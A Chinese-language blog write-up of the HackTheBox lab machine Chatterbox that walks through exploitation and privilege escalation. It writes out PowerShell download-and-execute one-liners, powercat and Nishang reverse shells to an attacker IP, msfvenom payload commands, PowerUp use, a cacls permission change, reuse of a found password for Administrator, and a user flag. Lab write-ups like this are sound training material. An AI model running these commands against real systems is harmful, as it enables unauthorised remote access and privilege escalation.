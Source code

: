 ```yaml
---
layout: post
title:  "HackTheBox >_ Chatterbox_74"
description: walkthrough
category: HackTheBox
---
```


# Chatterbox_74

![]({{ site.url }}/assets/Chatterbox_74.assets/20201116144339515_2106559873.png)

![]({{ site.url }}/assets/Chatterbox_74.assets/20201116144346094_1536381069.png)

![]({{ site.url }}/assets/Chatterbox_74.assets/20201116144357976_613255155.png)

![]({{ site.url }}/assets/Chatterbox_74.assets/20201116144406497_1205368132.png)

查看漏洞利用文件。发现这个利用试执行CMD命令。并不是直接返回shell

![]({{ site.url }}/assets/Chatterbox_74.assets/20201116144518902_1408952373.png)

修改CMD命令为下载powercat并执行反shell

## powercat的做法

`powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.45:8080/powercat.ps1');powercat -c 10.10.14.45 -p 4444 -e cmd"`


修改并用\释义双引号后

```bash
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell -c \"IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.45:8080/powercat.ps1');powercat -c 10.10.14.45 -p 4444 -e cmd\"" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

生成替换

![]({{ site.url }}/assets/Chatterbox_74.assets/20201116144619471_2107841189.png)

修改exp中的目标ip

![]({{ site.url }}/assets/Chatterbox_74.assets/20201116144643703_1596622611.png)

准备powercat

![]({{ site.url }}/assets/Chatterbox_74.assets/20201116144656881_1628053812.png)

执行payload

![]({{ site.url }}/assets/Chatterbox_74.assets/20201116144725761_1611271857.png)

在监听处得到shell

![]({{ site.url }}/assets/Chatterbox_74.assets/20201116144906657_578696736.png)

![]({{ site.url }}/assets/Chatterbox_74.assets/20201116144929157_202604689.png)

type user.txt
72290246dfaedb1e3e3ac9d6fb306334

## nishang的做法
拉
Nishang的powershell过来
Invoke-PowerShellTcp.ps1

![]({{ site.url }}/assets/Chatterbox_74.assets/20201116145348204_1415427528.png)

修改ps脚本
附加语句使其执行时能弹回shell
`Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.45 -Port 4444`

![]({{ site.url }}/assets/Chatterbox_74.assets/20201116145408032_1414105277.png)

改成更短的名字。从而使payload更短

![]({{ site.url }}/assets/Chatterbox_74.assets/20201116145422548_665869190.png)

生成payload

```bash
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell\"IEX(New-Object Net.webClient).downloadString('http://10.10.14.45/a.ps1')\"" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```


后面一样




## 提权


从目标机器上的PowerShell 中，使用以下命令传输powerup：
`IEX（New-Object Net.WebClient）.downloadString（'http://10.10.14.30/PowerUp.ps1'）`

现在，我们可以键入`Invoke-AllChecks`来查看我们在Windows框中使用的功能。

![]({{ site.url }}/assets/Chatterbox_74.assets/20201116150507249_726191813.png)

我们看到了Alfred的用户名和密码。因此，我们将尝试将其用于其他用途

让我们键入netusers来查看框上还有其他人：

![]({{ site.url }}/assets/Chatterbox_74.assets/20201116150528862_956235190.png)

我们可以成功导航到 C：\ users \ Administrator \ Desktop 并看到root.txt标志，但是当我们尝试查看它时，我们被拒绝了权限：

我们可以使用cacls通过以下命令来修改文件的权限：

`cacls "c:\users\Administrator\Desktop\root.txt" /E /P Alfred:F`

然后即可读取文件

![]({{ site.url }}/assets/Chatterbox_74.assets/20201116150642956_1824707829.png)


> cacls  Windows实用程序，用于查看/编辑文件权限
> / E  编辑ACL
> / P  设置权限
> Alfred：F  使Alfred完全控制文件

现在，这为我们提供了根标志，而不是包装盒上的反向外壳，因此让我们对其进行修复：



我们需要创建一个凭据变量来存储密码，然后才能告诉Windows使用它来执行某些命令

`$SecPass = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force`

![]({{ site.url }}/assets/Chatterbox_74.assets/20201116150828544_1798002843.png)

这告诉PowerShell将先前找到的密码存储在纯文本中，并强制将其保存（即使我们知道这是不好的做法）。
接下来，我们将创建一个名为cred的新变量，并将其用于登录： 

`$cred = New-Object System.Management.Automation.PSCredential ('Administrator', $SecPass)`

![]({{ site.url }}/assets/Chatterbox_74.assets/20201116150958674_1791385364.png)

新建一个其他端口的 nishang，或者是继续使用powercat

设立新的监听

现在，我们要从Kali框中传输新的powershell文件，并使用存储的凭据执行它。该命令如下所示：

`Start-Process -FilePath "powershell" -argumentlist "IEX (New-Object Net.WebClient).downloadString('http://10.10.14.30/adminshell.ps1')" -Credential $cred`

![]({{ site.url }}/assets/Chatterbox_74.assets/20201116151310729_93081808.png)




















